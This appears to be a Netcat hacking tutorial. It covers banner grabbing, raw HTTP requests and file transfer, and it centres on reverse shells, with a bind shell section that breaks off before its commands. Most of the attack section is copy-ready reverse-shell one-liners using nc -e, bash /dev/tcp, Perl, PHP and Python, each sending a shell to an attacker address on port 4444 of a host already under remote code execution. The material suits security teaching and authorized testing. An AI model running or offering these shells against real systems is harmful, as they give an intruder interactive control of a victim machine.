 ## Netcat

#### Netcat banner grabbing
```
$ nc [ip address][port]
```


#### Netcat raw connection

To demonstrate how a raw connection works we will issue some FTP commands after we’re connected to the target host on the FTP service. Let’s see if anonymous access is allowed on this FTP server by issuing the USER and PASS command followed by anonymous.


#### Web server interaction

Netcat can also be used to interact with webservers by issuing HTTP requests.
```
$ nc 192.168.100.108 80
```

and the run
```
HEAD / HTTP/1.0
```



To retrieve the top level page on the webserver we can issue the following command:

```
$ nc 192.168.100.108 80
```
and run the following HTTP request:
```
GET / HTTP/1.0
```
#### File transfers with Netcat

In this example we will be using a Netcat connection to transfer a text file. Let’s assume we have remote command execution on the target host and we want to transfer a file from the attack box to the host. First we would need to set up a listener on the target host and connect to it from the attack box. We will be using port 8080 for this purpose and we safe the file to the desktop:

```
$ nc -lvp 8080 > /root/Desktop/transfer.txt
```
On the attack box(our machine) we connect to port 8080 and send a file name transfer.txt:

```
$ nc 192.168.100.107 8080 < /root/Desktop/transfer.txt
```

### Netcat reverse shells

A very popular usage of Netcat and probably the most common use from penetration testing perspective are reverse shells and bind shells. A reverse shell is a shell initiated from the target host back to the attack box which is in a listening state to pick up the shell. A bind shell is setup on the target host and binds to a specific port to listens for an incoming connection from the attack box. In malicious software a bind shell is often revered to as a backdoor.

In the following paragraphs we will be demonstrating the use of bind and reverse shell. We will be using port 4444 throughout this tutorial but please note that this can be any open port instead. In fact, often you need to use more common ports like 80 and 443 to setup reverse shells as it is more common for these ports to be open.

#### Setting up Netcat Reverse Shells


![](ncatrevshell.jpg)

In order to setup a Netcat reverse shell we need to follow the following steps:

1. Setup a Netcat listener.
2. Connect to the Netcat listener from the target host.
3. Issue commands on the target host from the attack box.


First we setup a Netcat listener on the attack box which is listening on port 4444 with the following command:

```
$ nc –lvp 4444

```

Than we issue the following command on the target host to connect to our attack box (remember we have remote code execution on this box):

```
$ nc 192.168.100.113 4444 –e /bin/bash

```

for windows:
```
nc.exe 192.168.100.113 4444 –e cmd.exe
```

#### Reverse shell without Netcat on the target host

One major downside on the shown example is that you need Netcat on that target host which is very often not the case in real world scenario’s. In some cases Netcat is present, or we have a way to install it, but in many cases we need to use alternatives ways to connect back to the attack box. Let’s have a look at a few alternative ways to setup a reverse shell.

##### Bash reverse shell

With can also use Bash to initiate a reverse shell from the target host to the attack box by using the following command:

```
$ bash -i >& /dev/tcp/192.168.100.113/4444 0>&1
```

##### Perl reverse shell

```
$ perl -e ‘use Socket;$i=”192.168.100.113″;$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname(“tcp”));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,”>&S”);open(STDOUT,”>&S”);open(STDERR,”>&S”);exec(“/bin/sh -i”);};’
```

##### PHP reverse shell

```
$ php -r ‘$sock=fsockopen(“192.168.100.113”,4444);exec(“/bin/sh -i <&3 >&3 2>&3”);’

```

##### Python reverse shell


```
$ python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.100.113”,4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);’
```

#### Netcat Bind Shell

As we’ve mentioned earlier in this Hacking with Netcat tutorial a bind shell is a shell that binds to a specific port on the target host to listen for incoming connections. Let’s have a look at the visualization of a bind Netcat shell:


![](ncatbindshell.jpg)


In this visualization the target binds a Bash shell to port 4444 using a Netcat listener. The attacker connects to this port using a simple Netcat command. The steps to setup a bind shell are as following:


1. Bind a bash shell to port 4444 using Netcat.
2. Connect to the target host on port 4444 from the attack box.
3. Issue commands on the target host from the attack box.
